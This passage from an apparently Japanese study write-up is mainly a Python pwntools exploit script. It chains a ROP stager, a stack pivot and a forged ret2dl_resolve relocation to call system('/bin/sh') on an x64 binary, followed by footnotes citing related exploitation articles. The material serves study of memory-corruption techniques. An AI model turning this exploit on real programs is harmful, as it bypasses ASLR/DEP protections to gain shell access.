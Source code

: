 ```python: exploit.py

assert(args.OFFSET)

io = start()

# 1st stage
off = b'a' * int(args.OFFSET, 10)
base_stage = 0x404700 
addr_set_reg = 0x40120a # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
addr_call_func = 0x4011f0 # mov rdx, r14; mov rsi, r13; mov edi, r12d; call QWORD PTR [r15+rbx*8];

# read(0, base_stage, 200)
rop = ROP(binfile)
rop.raw(addr_set_reg)
rop.raw(pack(0)) # rbx
rop.raw(pack(1)) # rbp
rop.raw(pack(0)) # r12(arg1)
rop.raw(pack(base_stage)) # r13(arg2)
rop.raw(pack(200)) # r14(arg3)
rop.raw(pack(elf.got['read'])) # r15(関数のアドレスが置いてある場所のアドレス)
rop.raw(addr_call_func)

# stack pivot
rop.raw(pack(0)) # padding: add rsp, 0x8;があるから。
rop.raw(pack(0)) # rbx
rop.raw(pack(base_stage)) # rbp
rop.raw(pack(0)) # r12
rop.raw(pack(0)) # r13
rop.raw(pack(0)) # r14
rop.raw(pack(0)) # r15
rop.raw(rop.find_gadget(['leave', 'ret']).address)

payload = off + rop.chain()

io.send(pack(len(payload)))
io.send(payload)
io.clean()

# 2nd stage
r_offset = 0x404020
addr_reloc = base_stage + 40
align_reloc = 0x18 - ((addr_reloc - elf.get_section_by_name('.rela.plt').header.sh_addr) % 0x18)
addr_reloc += align_reloc
reloc_offset = int((addr_reloc - elf.get_section_by_name('.rela.plt').header.sh_addr) / 0x18)
addr_dynsym = addr_reloc + 0x18
align_dynsym = 0x18 - ((addr_dynsym - elf.get_section_by_name('.dynsym').header.sh_addr) % 0x18)
addr_dynsym += align_dynsym
index_dynsym = int((addr_dynsym -  elf.get_section_by_name('.dynsym').header.sh_addr) / 0x18)
r_info = index_dynsym << 32 | 0x7
addr_dynstr = addr_dynsym + 0x18
st_name = addr_dynstr - elf.get_section_by_name('.dynstr').header.sh_addr
addr_cmd = addr_dynstr + 7
plt_start = elf.get_section_by_name('.plt').header.sh_addr

# system("/bin/sh")
rop = ROP(binfile)
rop.raw(pack(0))
rop.raw(pack(rop.rdi.address))
rop.raw(pack(addr_cmd))
rop.raw(pack(plt_start))
rop.raw(pack(reloc_offset)) # 直接relocationさせてみる

payload = rop.chain()
```

[^1]: ももいろテクノロジー. "x64でROP stager + Return-to-dl-resolveによるASLR+DEP回避をやってみる". https://inaz2.hatenablog.com/entry/2014/07/27/205322 ,(参照 2022年12月26日) 
[^2]: 坂井 弘亮. リンカ・ローダ実践開発テクニック. CQ出版株式会社, 2020
[^3]: https://elixir.bootlin.com/glibc/glibc-2.31/source/elf/dl-runtime.c#L59
[^4]: D3v17. "Ret2dl_resolve x64: Exploiting Dynamic Linking Procedure In x64 ELF Binaries". https://syst3mfailure.io/ret2dl_resolve ,(参照 2023年1月5日)